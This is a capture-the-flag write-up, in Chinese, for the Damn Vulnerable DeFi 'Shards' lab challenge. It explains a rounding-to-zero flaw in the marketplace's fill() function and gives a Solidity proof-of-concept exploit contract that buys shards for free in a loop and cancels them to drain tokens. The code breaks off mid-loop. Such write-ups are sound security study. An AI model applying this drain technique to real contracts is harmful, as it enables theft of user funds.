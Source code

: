 [題目](https://www.damnvulnerabledefi.xyz/challenges/shards/): Shards NFT 市場是一個無需許可的智能合約，允許 Damn Valuable NFT 的持有者以任何價格（以 USDC 表示）出售這些 NFT。這些 NFT 可能非常有價值，以至於賣家可以將它們拆分成較小的份額（稱為 “shards”）。買家可以購買這些 shards，這些份額以 ERC1155 代幣形式表示。只有當整個 NFT 售出後，市場才會向賣家付款。市場向賣家收取 1% 的手續費，並以 Damn Valuable Tokens (DVT) 支付。這些 DVT 可以存放在安全的鏈上金庫中，而該金庫與 DVT 的質押系統整合。有人正在出售一個 NFT，價格高達……哇，一百萬 USDC？在那些瘋狂的玩家發現之前，你最好先深入研究這個市場。你一開始沒有任何 DVT，請儘量在一次交易中救回資金，並將資產存入指定的回收帳戶。

過關條件:
- Staking 合約中的代幣餘額沒有改變
- marketplace 中消失的代幣（missingTokens）大於 initialTokensInMarketplace 的 0.01%
- 所有追回的資金必須被轉移到 recovery 錢包
- 必須只執行了一次交易

知識點:
- mulDivDown 向下捨去後為 0

解題:
- 題目預設有1個正在賣的NFT. 但 player 並沒有 dvt token 那要怎麼玩下去?
- 檢查fill()的時候, 發現 want.mulDivDown(_toDVT(offer.price, _currentRate), offer.totalShards) 購買者購買的碎片數量是 want，但是該函數中的計算公式可能存在浮點數下溢或計算錯誤的情況，特別是 mulDivDown 和 _toDVT 的結合使用. 但這裡的算法會導致當 want 的數值較小時，最終計算結果可能為 0。這應該就是這題的考點. 所以我們可以支付 0 DVT 代幣即可獲得大量的 NFT 碎片. 計算後want最大值可以是133都會是0元購買.
- 透過0元買到的 NFT 碎片, 可以透過cancel() 把碎片還給Marketplace, 這時候就可以拿到DVT代幣了.
- POC 我執行了10001次, 在local run沒有fail. 如果再private fork環境fail的話再修改算法就好了.

```
    function fill(uint64 offerId, uint256 want) external returns (uint256 purchaseIndex) {

        paymentToken.transferFrom(
            msg.sender, address(this), want.mulDivDown(_toDVT(offer.price, _currentRate), offer.totalShards)
        );
        if (offer.stock == 0) _closeOffer(offerId);
    }
    function _toDVT(uint256 _value, uint256 _rate) private pure returns (uint256) {
        return _value.mulDivDown(_rate, 1e6);
    }

```


[POC](./damn-vulnerable-defi/test/shards/Shards.t.sol) :

```
 
    function test_shards() public checkSolvedByPlayer {

        Exploit exploit = new Exploit(marketplace,token,recovery);
        exploit.attack(1);
        console.log("recovery balance",token.balanceOf(address(recovery)));
        
    }
contract Exploit {
    ShardsNFTMarketplace public marketplace;
    DamnValuableToken public token;
    address recovery;

    constructor(ShardsNFTMarketplace _marketplace, DamnValuableToken _token, address _recovery) {
        marketplace = _marketplace;
        token = _token;
        recovery = _recovery;
    }

    function attack(uint64 offerId) external {
        uint256 wantShards = 100; // Fill 100 shards per call

        // Loop 10 times to execute fill(1, 100)
        for (uint256 i = 0; i < 10001; i++) {
            marketplace.fill(offerId, wantShards);
```